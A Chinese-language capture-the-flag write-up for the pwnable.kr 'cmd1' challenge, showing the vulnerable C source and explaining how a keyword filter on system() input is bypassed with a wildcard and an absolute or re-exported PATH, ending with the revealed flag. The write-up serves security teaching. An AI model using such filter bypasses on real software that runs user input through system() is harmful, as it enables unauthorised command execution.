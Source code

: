 ```yaml
---
title: 'pwnable.kr #cmd1'
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2017-06-26 20:35:43
categories:
    - Writeups
	  - pwnable.kr
thumbnailImage: pwnablekr.jpg
keywords:
    - pwnable.kr
    - Toddler's Bottle
    - cmd1
tags:
    - Writeups
---
```

環境變數的基本知識
<!-- more -->
題目原始碼：
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

可以看到`filter()`過濾掉`argv[1]`裡面不能包含的`flag`、`sh`、`tmp`子字串，這部分用萬用字元`*`就可以繞過限制。

另外在第12行把重要的環境變數`PATH`給覆寫掉了，這樣如果想要直接呼叫`cat`把flag印出來會得到以下錯誤：
```
cmd1@ubuntu:~$ ./cmd1 "cat fla*"
sh: 1: cat: not found
```

所以說，在呼叫`cat`以前我們必須先修改環境變數：
```
cmd1@ubuntu:~$ ./cmd1 "export PATH=/bin; cat fla*"
mommy now I get what PATH environment is for :)
```

或是更簡單的方法，先確認`cat`的路徑以後使用絕對路徑呼叫即可：
```
cmd1@ubuntu:~$ which cat
/bin/cat
cmd1@ubuntu:~$ ./cmd1 "/bin/cat fla*"
mommy now I get what PATH environment is for :)
```